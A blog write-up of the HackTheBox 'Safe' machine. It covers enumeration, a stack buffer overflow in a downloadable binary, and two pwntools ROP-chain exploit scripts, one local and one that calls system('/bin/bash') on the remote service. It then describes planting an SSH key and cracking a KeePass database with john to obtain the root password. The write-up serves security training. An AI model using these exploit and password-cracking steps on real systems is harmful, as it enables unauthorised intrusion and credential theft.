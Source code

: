 ```yaml
---
layout: post
title:	"Safe Writeup"
date:	2019-10-26
categories:
    - blog
tags:
    - hackthebox
---
```


![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img0.png)

### User Flag

Let's run a full TCP scan with NMAP in order to enumerate all the available TCP services:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img1.png)

How we can see, there are 3 open ports. On the 1337, there is an unknow service:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img2.png)

Going to http://10.10.10.147, we find the default Apache webpage but, by inspecting the source code, we find a comment about the service running on port 1337:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img3.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img4.png)

We can download the binary at http://10.10.10.147/myapp, it's the same running on port 1337:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img5.png)

Now check if the service crashes after receiving a certain ammount of character, we can use python to generate 119 'A's:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img6.png)

Ok, it crashes! Let's use a [gdb-peda](https://github.com/longld/peda) to debug the application and understand how it working. In the following image we can see the only enabled protection is NX, obviously the operating system has ASRL enabled too (trust me it's enabled :-P):

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img7.png)

Because there is no PIE, the PLT is not randomized so we can call the puts, system, prinft and gets functions:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img8.png)

Let's set a break point on the gets call and try to debug the binary:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img9.png)

As we can see, we are no able to debug the application because a new process is spawned and our debuger is not able to "follow" the new spawned process. In order to solve this problem, we can use the "set follow-fork-mode parent" command in order to let gdb-peda to "came back" to our process:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img10.png)

At this point, we need to know how much 'A's we need to overwrite EBP, to do this, we can use the pattern_create script:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img11.png)

Using the obtained string, we can see the value of EBP and use the pattern_offset to obtain the number of 'A's we need to overwrite EBP, we have to add 8 more 'A's to overwrite EIP:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img12.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img13.png)

With 120 'A's and 8 'B's we are able to triger a ret instruction on the address 0x4242424242424242, that means we controll EIP:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img14.png)

At this point, we controll the program flow, the idea is to call the system function (via PLT ad fix address), with /bin/bash as parameter. The x64 calling convetion tells us that the first argument must be pass throu the RDI register. So we need an instruction that take the value on the top of the stack and put it into the RDI register. We can use ROPgadget for this purpose:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img15.png)

Ok, our instruction is at address 0x40120b!!
So what does our payload should do?

* 120 'A's
* Address POP RDI; RET; (0x40120b)
* Address of /bin/bash string
* System PLT Address 

Is it ok? No, we have another problem: ASRL(I told you before :-P), we don't know the address of our "/bin/bash" string. We need to figure out how to deal with it! We can find a writable fixed address, use the GETS function (PLT) to write our "/bin/bash" string into it. Using the vmmap command, we can see the memory mapping and it's permissions:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img16.png)

Ok, how we can see, the memory from 0x00404000  to 0x00405000  is writable and is part of our binary (fixed address!!!), let's use the address 0x404050. What does our exploit have to do?

* 120 'A's
* Address POP RDI; RET; (0x40120b)
* Writable Address (0x404050)
* Gets PLT Address 
* Address POP RDI; RET; (0x40120b)
* Address of /bin/bash string (0x404050)
* System PLT Address 

Using [pwntool](https://pwntools.com), this is the local exploit:

~~~
from pwn import *

e = ELF("/root/Desktop/myapp")
p = process("/root/Desktop/myapp")

payload = "A"*(120)
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address
payload += p64(0x401060) #gets@PLT
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address
payload += p64(0x401040) #system@PLT
print p.read 
print p.read
print "Invio Payload"
p.write(payload+"\n")
p.write("/bin/bash\n")
print p.read()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img17.png)

Ok it works, let's use the connection to the remote service in order to obtain a reverse shell from Safe machine:

~~~
from pwn import *

e = ELF("/root/Desktop/myapp")
p = remote("10.10.10.147",1337)

payload = "A"*(120)
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address 
payload += p64(0x401060) #gets@PLT
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address
payload += p64(0x401040) #system@PLT
payload += "\x90" *50
print p.read
print p.read
print "Invio Payload"
p.write(payload+"\n")
p.write("/bin/bash\n")
print p.read()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img18.png)

### Root Flag

We can add our ssh key to the authorized_key file in order to access with SSH:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img19.png)

In the home folder of user there are 6 images and a keepass file:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img20.png)

We can use keepass2john and john to crack the keepass file,  one of the images maybe a keyfile, using keepass2john we can generate an a file containing multiple hashes, one for each images as key :

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img21.png)

With john, we obtain the password "bullshit":

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img22.png)

Using the password "bullshit" and the file IMG_0547.JPG as keyfile, we can access the keepass file and obtain the root password:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img23.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img24.png)

With su command we become the user root:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img25.png)









